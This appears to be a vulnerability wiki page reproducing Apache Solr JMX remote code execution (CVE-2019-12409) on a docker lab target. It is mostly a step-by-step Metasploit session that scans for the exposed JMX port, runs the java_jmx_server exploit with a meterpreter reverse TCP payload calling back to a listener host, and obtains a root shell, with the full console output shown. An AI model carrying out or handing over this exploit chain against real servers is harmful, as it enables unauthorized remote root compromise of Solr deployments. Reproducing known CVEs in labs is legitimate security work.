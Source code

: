 ```yaml
---
title: Apache Solr JMX Service RCE CVE-2019-12409
---
```


# Apache Solr JMX Service RCE CVE-2019-12409

## Vulnerability Description
Java ManagementExtensions (JMX) is a Java technology that provides corresponding tools for managing and monitoring applications, system objects, devices (such as printers), and service-oriented networks. 

## Affect Version
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr 8.1.1</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr 8.2.0</span>

## Environment construction
```shell
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

## Vulnerability reappears


Check whether the vulnerability port 18983 is open
```shell
nmap xxx.xxx.xxx.xxx -p 18983
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/98733fe0-bd66-40d2-95ff-322723fcf123.png)

```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: https://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: https://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ce0defa5-e90a-4885-bb1f-b1bbf8425b16.png)